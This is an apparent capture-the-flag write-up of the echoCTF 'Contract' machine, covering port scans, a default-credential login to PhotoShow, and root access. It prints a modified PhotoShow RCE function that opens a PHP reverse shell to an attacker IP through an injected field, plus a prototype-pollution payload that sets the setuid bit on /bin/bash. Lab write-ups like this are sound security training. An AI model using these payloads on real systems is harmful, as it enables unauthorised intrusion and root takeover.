 ```yaml
---
description: >-
  Contract echoCTF Machine
title: Contract (Intermediate)                # Add title here
date: 2025-02-20 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [Default Credentials, RCE, PhotoShow, agreejs/shared]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Contract.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.221
```

### Content

-  Default Credentials
-  PhotoShow 3.0 - Remote Code Execution (RCE) 
-  @agreejs/shared Prototype Pollution

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.221
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.221 ()   Status: Up
Host: 10.0.160.221 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.221
Nmap scan report for 10.0.160.221
Host is up, received user-set (0.15s latency).
Scanned at 2025-02-20 19:00:34 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 ca:a0:22:83:88:f3:e3:ed:6f:3d:59:ba:bd:3c:f1:6b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHP4VhDww7U3k3GJxGqRFXN6xzDoOuF9TFiuKrlaP+twLHPWCLe1V7JIBgcL1JF3uf0Li/36H99aZbHUKuv7Z98=
|   256 3d:80:07:18:b3:84:60:08:85:c8:68:c9:5a:f1:b0:09 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHOMTnmLCLW8d7QVNNH3UKLr8W03N/+RlL+LN6Nkalcx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: PhotoShow
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0
|_http-favicon: Unknown favicon MD5: 7D314C14444028B644D54DC1C8F65E43
```

### Exploitation

The target has only an HTTP service running besides the SSH, on it there is a PhotoShow CMS, I've tried with some default credentials and the pair that worked was `admin:password`:
![](/assets/img/Pasted-image-20250220180624.png)

This CMS is vulnerable to [PhotoShow - Remote Code Execution](https://www.exploit-db.com/exploits/51236), I downloaded the script and after some attempts I got a successful shell by modifying the payload on the script from `bash -c 'bash -i..` for this one:
```bash
 def createInjection(attackerIp, attackerNcPort):
    textToEncode = "php -r '$sock=fsockopen(\"" + attackerIp + "\"," + attackerNcPort + ");exec(\"sh <&3 >&3 2>&3\");'"
    b64Encoded = base64.b64encode(textToEncode.encode("ascii"))
    strb64 = str(b64Encoded)[2:-1]
    injection = {"exiftran_path": "echo " + strb64 + " | base64 -d > /tmp/1.sh ;/bin/bash /tmp/1.sh"}
    return urllib.parse.urlencode(injection)
```

For some reason only php revshell payload works, after that we got a shell.

### Privilege Escalation

I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@contract:~/html$ sudo -l
Matching Defaults entries for www-data on contract:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on contract:
    (ALL : ALL) NOPASSWD: /usr/bin/agreement
```
This is the content of it:
```bash
wwww-data@contract:~/html$ cat /usr/bin/agreement
#! /usr/bin/env node
var args = process.argv.slice(2);
(async () => {
  const lib = await import('@agreejs/shared');
  const { exec } = await import('child_process');
  var components=JSON.parse(args[0])
  try {
    lib.mergeInternalComponents (components)
  } catch (e) { }
  var user = {}
  if(user.authenticated===true)
  {
    exec(user.cmd);
  }
})();
```
As usual, the vulnerability relays on the imported library, in this case `@agreejs/shared`, there is a vulnerability reported as [Remote code execution in @agreejs/shared](https://security.snyk.io/vuln/SNYK-JS-AGREEJSSHARED-7417398), after reading the article and with the aid of DeepSeek I came with the following payload:
```bash
www-data@contract:~/html$ sudo /usr/bin/agreement '{"__proto__":{"authenticated":true,"cmd":"chmod +s /bin/bash"}}'
www-data@contract:~/html$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`/proc/1/environ`
`/root`

### Credentials

- Credentials identified for PhotoShow are `admin:password`

### Notes

- Sometimes the public exploits only work on certain environments, in this case we needed to modify ours so we can successfully exploit the vulnerability in the CMS, so it is a good idea to always have more than one revshell payload to avoid this scenarios.

### References

- [PhotoShow - Remote Code Execution](https://www.exploit-db.com/exploits/51236)
- [Remote code execution in @agreejs/shared](https://security.snyk.io/vuln/SNYK-JS-AGREEJSSHARED-7417398)

